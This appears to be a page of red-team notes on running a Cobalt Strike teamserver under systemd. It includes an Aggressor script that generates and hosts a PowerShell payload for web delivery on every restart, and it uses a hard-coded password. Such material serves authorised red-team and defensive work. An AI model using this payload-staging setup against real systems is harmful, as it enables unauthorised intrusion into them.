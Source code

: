 #### Reload service
```
sudo systemctl daemon-reload
sudo systemctl status csteamserver.service
```

#### Start service
```
sudo systemctl start csteamserver.service
sudo systemctl status csteamserver.service
```

#### Enable service
```
sudo systemctl enable teamserver.service
```

### Persistend hosted files
- Hosted files are gone on restart. A solution is to use `agscript` utility with the `artifact_payload` and `site_host` functions.
```
agscript <HOST> <PORT> <USER> <PASSWORD> <path/to/script.cna>

vim host_payloads.cna

# Connected and ready
on ready {

    # Generate payload
    $payload = artifact_payload("<LISTENER NAME>", "<PAYLOAD TYPE>", "<PAYLOAD ARCHITECTURE>");

    # Host payload
    site_host("<LOCAL IP>", <PORT>, "<URI>", $payload, "<MIME TYPE>", "<DESCRIPTION>", <HTTPS [true|false]>);
}
```

```
vim host_payloads.cna

# Connected and ready
on ready {

    # Generate payload
    $payload = artifact_payload("http", "powershell", "x64");

    # Host payload
    site_host("10.10.5.50", 80, "/a", $payload, "text/plain", "Auto Web Delivery (PowerShell)", false);
}
```

#### Add to startup service
- Add the following line
```
sudo vim /etc/systemd/system/csteamserver.service

ExecStartPost=/bin/sh -c '/usr/bin/sleep 30; /home/attacker/cobaltstrike/agscript 127.0.0.1 50050 headless Passw0rd! host_payloads.cna &'
```
